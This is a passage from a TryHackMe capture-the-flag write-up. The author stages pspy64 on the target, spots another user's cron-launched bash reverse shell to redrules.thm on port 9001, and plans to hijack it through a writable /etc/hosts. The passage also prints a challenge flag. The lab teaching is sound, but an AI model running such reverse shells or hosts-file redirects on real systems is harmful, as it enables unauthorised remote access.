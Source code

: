 After you login with that password we can get the flag quickly but then you are logged out since the password rotate quickly.

> THM{Is\_thAt\_all\_y0u\_can\_d0\_blU3?}

So getting the password again the same way we did above we log back in and if we wait a minute we start getting taunting messages.

To monitor running processes for potential privilege escalation vectors, I wanted to use `pspy64`. The binary was already available on my attack box at:

```
/opt/static-binaries/linux/x86_64/pspy64
```

I started a simple Python web server on my attack box to serve the file:

```bash
cd /opt/static-binaries/linux/x86_64
python3 -m http.server 1234
```

From the target machine as the `blue` user, I then downloaded the binary directly into `/tmp` (a writable directory):

```bash
wget <http://<MACHINE_IP>:1234/pspy64> -O /tmp/pspy64
```

After downloading, I made it executable and ran it:

```bash
chmod +x /tmp/pspy64
/tmp/pspy64
./pspy64
```

This allowed me to observe all processes running on the system, including those started by other users and scheduled tasks, which is very useful for identifying privilege escalation opportunities.

After running it for a bit this came out interesting

```abap
2025/09/09 02:35:01 CMD: UID=1001 PID=14838  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```

The given command attempts to establish a reverse shell connection to a remote server at `redrules.thm` on port `9001`, allowing interactive access to the remote shell from the user's local machine. The `nohup` ensures the connection persists even after the user's session ends.

```abap
2025/09/09 02:36:01 CMD: UID=0    PID=14846  | /usr/bin/bash /root/defense/backup.sh 
2025/09/09 02:37:01 CMD: UID=0    PID=14873  | /usr/bin/bash /root/defense/talk.sh 
```

It seems that the script talk.sh is used to leave messages on our command prompt and backup.sh to restore some files. Also, the permissions and attributes of /etc/hosts are adjusted. Processes are being tracked and killed.

So let's check the /etc/hosts file. Maybe we are able to check where redrules.thm resolves to and be able to reroute it to catch the reverse shell of the user red. Checking out the write permissions, it is possible for others to read and write to the file.
